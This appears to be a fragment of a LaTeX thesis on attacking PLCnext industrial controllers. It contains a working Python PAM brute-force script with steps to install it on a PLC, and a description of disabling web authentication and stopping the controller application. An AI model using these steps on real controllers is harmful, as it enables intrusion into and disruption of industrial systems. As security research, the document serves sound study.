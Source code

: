 \documentclass[Master,BMR,english]{twbook}
\begin{document}
Since the PLC Application is built on the framework, it is equally necessary to obtain the credentials of at least one admin user from the PLCnext framework, in order to obtain a priviledge escalation, and a Brute Force attack was launcheed using the hydra tool and a similarly written python file that tries to obtain the password locally.

\begin{listing}[htbp]
\begin{verbatim}
# brute_force.py script to attempt authentication with different passwords
import pam
import sys

user = "engineer"  
passwords_file = "passwords.txt"

auth = pam.pam()

with open(passwords_file, 'r') as f:
    passwords = f.read().splitlines()

for password in passwords:
    print(f"Trying password: {password}")
    if auth.authenticate(user, password):
        print(f"Password found: {password}")
        sys.exit(0)

print("Password not found")

\# Step 1: Download get-pip.py and Python packages
wget https://bootstrap.pypa.io/get-pip.py 
mkdir python-packages 
cd python-packages 
pip download python-pam  

# Step 2: After transfering dependencies to the PLC1, 
# installing pip and Python packages on PLC
python3 get-pip.py --no-index --find-links /opt/plcnext/master/python-packages
pip3 install --no-index --find-links /opt/plcnext/master/python-packages 
    python-pam

# Step 3: Verify installation
pip3 --version
python3 -c "import pam; print(pam.__version__)"

# Step 4: Run the Python file
python3 brute_force.py

\end{verbatim}
\caption{Steps to install Python packages and execute the brute-force script on PLC1}
\end{listing}



\section*{Evasion}

\textbf{Exploit for Evasion (T0820) and Change Operating Mode (T0858):}  The hacker disables user authentication in the WBM after gaining the creditentials of a PLCnext user with admin rights. And then stops the PLCnext Application which changes the operating mode of the PLC. 
\end{document}
